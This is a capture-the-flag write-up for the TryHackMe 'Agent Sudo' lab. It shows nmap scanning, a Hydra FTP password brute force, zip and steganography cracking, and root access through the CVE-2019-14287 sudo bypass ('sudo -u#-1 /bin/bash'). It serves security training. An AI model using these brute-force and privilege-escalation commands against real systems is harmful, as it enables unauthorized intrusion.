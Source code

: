 # Agent Sudo
---

## Enumeration


```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ nmap -p- 10.10.148.132 | tee open_ports
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ nmap -p 21,22,80 -sV -sC 10.10.148.132 | tee nmap_scan
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-18 20:54 UTC
Nmap scan report for 10.10.148.132
Host is up (0.086s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```

Using a request editor and sending a request with C as User-Agent provides us with the name *chris* and tell us that he has a weak password, which we can try to bruteforce ftp with hydra.

```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.148.132 ftp
```

* FTP password: crystal
* Zip password: alien
(Files can be extracted with 7zip `$ 7z e zip_to_crack.zip`)
(Use foremost to extract the zip file from the *.png* image, then...)

```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ locate zip2john
/usr/sbin/zip2john

kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ /usr/sbin/zip2john ceva.zip > john.zip

kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ john john.zip --show
ceva.zip/To_agentR.txt:alien:To_agentR.txt:ceva.zip:ceva.zip

1 password hash cracked, 0 left

#contents of the zip file
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

* steg password: Area51
```bash
$ stegcracker cute-alien.jpg
```

```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Agent_Sudo$ cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

* SSH password: hackerrules!

* Sudo password for james is also: hackerrules!

```bash
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
* CVE: CVE-2019-14287
```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~# cat /root/root.txt
```
The sudo vulnerability CVE-2019-14287 is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access.
Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.
Running the command with id -1, gets treated as 0, which is always root

